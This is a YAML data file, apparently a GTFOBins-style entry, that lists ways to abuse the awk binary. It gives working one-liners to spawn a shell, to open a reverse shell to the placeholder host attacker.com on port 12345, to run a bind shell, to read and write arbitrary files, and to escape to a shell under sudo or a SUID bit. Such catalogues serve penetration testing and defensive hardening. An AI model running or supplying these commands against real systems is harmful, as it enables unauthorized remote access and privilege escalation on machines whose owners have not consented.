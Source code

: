 ```yaml
---
functions:
  execute-interactive:
  - code: awk 'BEGIN {system("/bin/sh")}'
  reverse-shell-non-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      RHOST=attacker.com
      RPORT=12345
      awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
          s = "/inet/tcp/0/" RHOST "/" RPORT;
          while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
          while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell-non-interactive:
  - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
    code: |
      LPORT=12345
      awk -v LPORT=$LPORT 'BEGIN {
          s = "/inet/tcp/" LPORT "/0/0";
          while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
          while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
  - code: |
      LFILE=file_to_write
      awk -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
  file-read:
  - code: |
      LFILE=file_to_read
      awk '//' "$LFILE"
  sudo-enabled:
  - code: sudo awk 'BEGIN {system("/bin/sh")}'
  suid-limited:
  - code: ./awk 'BEGIN {system("/bin/sh")}'
---
```

